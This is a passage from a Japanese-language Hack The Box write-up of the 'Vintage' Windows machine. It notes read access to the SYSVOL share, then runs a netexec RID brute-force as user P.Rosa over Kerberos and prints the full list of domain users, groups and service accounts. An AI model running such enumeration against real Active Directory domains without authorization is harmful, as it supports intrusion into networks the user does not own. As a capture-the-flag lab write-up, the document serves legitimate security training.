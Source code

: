 ```bash
SMB         dc01.vintage.htb 445    dc01             SYSVOL          READ            Logon server share
```

共有フォルダが読み込めるみたいです。しかし、smbclientなどで調べてみましたが、とくに使えそうな情報は見つかりませんでした。

### RID のブルートフォース攻撃によるユーザーの列挙

RIDをブルートフォース攻撃してドメインユーザーを列挙します。

```bash
┌──(kali㉿kali)-[~/HTB/machine/Windows/Vintage]
└─$ netexec smb dc01.vintage.htb -k --use-kcache --rid-brute
SMB         dc01.vintage.htb 445    dc01             [*]  x64 (name:dc01) (domain:vintage.htb) (signing:True) (SMBv1:False)
SMB         dc01.vintage.htb 445    dc01             [+] vintage.htb\P.Rosa from ccache 
SMB         dc01.vintage.htb 445    dc01             498: VINTAGE\Enterprise Read-only Domain Controllers (SidTypeGroup)
SMB         dc01.vintage.htb 445    dc01             500: VINTAGE\Administrator (SidTypeUser)
SMB         dc01.vintage.htb 445    dc01             501: VINTAGE\Guest (SidTypeUser)
SMB         dc01.vintage.htb 445    dc01             502: VINTAGE\krbtgt (SidTypeUser)
SMB         dc01.vintage.htb 445    dc01             512: VINTAGE\Domain Admins (SidTypeGroup)
SMB         dc01.vintage.htb 445    dc01             513: VINTAGE\Domain Users (SidTypeGroup)
SMB         dc01.vintage.htb 445    dc01             514: VINTAGE\Domain Guests (SidTypeGroup)
SMB         dc01.vintage.htb 445    dc01             515: VINTAGE\Domain Computers (SidTypeGroup)
SMB         dc01.vintage.htb 445    dc01             516: VINTAGE\Domain Controllers (SidTypeGroup)
SMB         dc01.vintage.htb 445    dc01             517: VINTAGE\Cert Publishers (SidTypeAlias)
SMB         dc01.vintage.htb 445    dc01             518: VINTAGE\Schema Admins (SidTypeGroup)
SMB         dc01.vintage.htb 445    dc01             519: VINTAGE\Enterprise Admins (SidTypeGroup)
SMB         dc01.vintage.htb 445    dc01             520: VINTAGE\Group Policy Creator Owners (SidTypeGroup)
SMB         dc01.vintage.htb 445    dc01             521: VINTAGE\Read-only Domain Controllers (SidTypeGroup)
SMB         dc01.vintage.htb 445    dc01             522: VINTAGE\Cloneable Domain Controllers (SidTypeGroup)
SMB         dc01.vintage.htb 445    dc01             525: VINTAGE\Protected Users (SidTypeGroup)
SMB         dc01.vintage.htb 445    dc01             526: VINTAGE\Key Admins (SidTypeGroup)
SMB         dc01.vintage.htb 445    dc01             527: VINTAGE\Enterprise Key Admins (SidTypeGroup)
SMB         dc01.vintage.htb 445    dc01             553: VINTAGE\RAS and IAS Servers (SidTypeAlias)
SMB         dc01.vintage.htb 445    dc01             571: VINTAGE\Allowed RODC Password Replication Group (SidTypeAlias)
SMB         dc01.vintage.htb 445    dc01             572: VINTAGE\Denied RODC Password Replication Group (SidTypeAlias)
SMB         dc01.vintage.htb 445    dc01             1002: VINTAGE\DC01$ (SidTypeUser)
SMB         dc01.vintage.htb 445    dc01             1103: VINTAGE\DnsAdmins (SidTypeAlias)
SMB         dc01.vintage.htb 445    dc01             1104: VINTAGE\DnsUpdateProxy (SidTypeGroup)
SMB         dc01.vintage.htb 445    dc01             1107: VINTAGE\gMSA01$ (SidTypeUser)
SMB         dc01.vintage.htb 445    dc01             1108: VINTAGE\FS01$ (SidTypeUser)
SMB         dc01.vintage.htb 445    dc01             1111: VINTAGE\M.Rossi (SidTypeUser)
SMB         dc01.vintage.htb 445    dc01             1112: VINTAGE\R.Verdi (SidTypeUser)
SMB         dc01.vintage.htb 445    dc01             1113: VINTAGE\L.Bianchi (SidTypeUser)
SMB         dc01.vintage.htb 445    dc01             1114: VINTAGE\G.Viola (SidTypeUser)
SMB         dc01.vintage.htb 445    dc01             1115: VINTAGE\C.Neri (SidTypeUser)
SMB         dc01.vintage.htb 445    dc01             1116: VINTAGE\P.Rosa (SidTypeUser)
SMB         dc01.vintage.htb 445    dc01             1120: VINTAGE\IT (SidTypeGroup)
SMB         dc01.vintage.htb 445    dc01             1121: VINTAGE\HR (SidTypeGroup)
SMB         dc01.vintage.htb 445    dc01             1122: VINTAGE\Finance (SidTypeGroup)
SMB         dc01.vintage.htb 445    dc01             1123: VINTAGE\ServiceAccounts (SidTypeGroup)
SMB         dc01.vintage.htb 445    dc01             1131: VINTAGE\DelegatedAdmins (SidTypeGroup)
SMB         dc01.vintage.htb 445    dc01             1134: VINTAGE\svc_sql (SidTypeUser)
SMB         dc01.vintage.htb 445    dc01             1135: VINTAGE\svc_ldap (SidTypeUser)
SMB         dc01.vintage.htb 445    dc01             1136: VINTAGE\svc_ark (SidTypeUser)
```